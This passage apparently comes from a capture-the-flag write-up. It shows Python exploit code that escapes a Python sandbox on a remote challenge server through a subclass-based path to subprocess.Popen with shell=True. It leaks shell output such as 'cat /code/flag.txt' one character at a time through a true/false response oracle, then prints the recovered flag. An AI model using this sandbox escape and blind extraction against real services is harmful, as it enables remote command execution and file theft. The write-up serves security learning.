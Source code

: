 ```python
                    print("   EXCEPTION!")
                    time.sleep(5 * 60)
            
            if "\"correct\": true" in response:
                output += c
                log_debug(command, output)
                index += 1
                break
            elif "Server Error" in response:
                finished = True
                break
            time.sleep(0.5)
    
    print("[{}] > {}".format(command, output))


def launch_remote_python_command(python_command):
    launch_remote_stuff("ord(list(str({}))[{}])", python_command)


def launch_remote_shell_command(shell_command):
    launch_remote_stuff("ord(list(str(''.__class__.mro()[1].__subclasses__()[208]('{}',shell=True,stdout=-1).communicate()[0].strip()))[{}])", shell_command)


# Exploitation.

#search_python_class("subprocess.Popen") # subprocess.Popen @ ''.__class__.mro()[1].__subclasses__()[208]

#while True:
#    pass

#commands = ["ls /", "ls .", "ls /etc", "ls /code", "ls /dev"]
#for command in commands:
#    _thread.start_new_thread(launch_remote_shell_command, (command,))

#while True:
#    pass

launch_remote_shell_command("cat /code/flag.txt")
```

The flag is the following.

```
gigem{1_4m_g0od_47_m4tH3m4aatics_n07_s3cUr1ty_h3h3h3he}
```